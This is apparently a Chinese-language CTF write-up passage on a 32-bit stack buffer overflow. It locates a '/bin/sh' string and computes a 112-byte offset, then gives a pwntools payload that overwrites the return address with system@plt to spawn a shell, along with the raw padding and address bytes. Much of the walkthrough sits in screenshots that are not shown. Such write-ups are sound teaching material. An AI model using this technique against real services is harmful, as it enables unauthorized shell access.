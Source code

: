 CTRL+F唤出字符串查找

![image-20240422201442808](${images}/image-20240422201442808.png)

![image-20240422201448246](${images}/image-20240422201448246.png)

前往两个地址查看：

0x08048720:

超出地址外：猜测在libc里，比较麻烦，不用

0x08049720：

![image-20240422201724680](${images}/image-20240422201724680.png)

##### 攻击

- 传递字符串所在地址+system@plt即可getshell

在gets@plt处和下一块地方和system@plt处放置断点：

然后输入123回车后，123处修改为

对了，这时候我们并不知道ebp的具体值，那好办，在输入的字符串前，或者变量定义处，放置断点：

![image-20240422204910029](${images}/image-20240422204910029.png)

此处没有算上+0x1c，因此算术的时候加上

算出：0x118-(0x90+0x1c)+0x4 = 0x70

那么offset = 0x70 = 112

```
payload = b'a' * offset + p32(system_plt) + p32(4) + p32(bin_sh_addr)
```

![image-20240422211904897](${images}/image-20240422211904897.png)

![image-20240422211921169](${images}/image-20240422211921169.png)

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

```
11 86 04 08
```

```
20 87 04 08
```

![image-20240422212025991](${images}/image-20240422212025991.png)

![image-20240422212117900](${images}/image-20240422212117900.png)
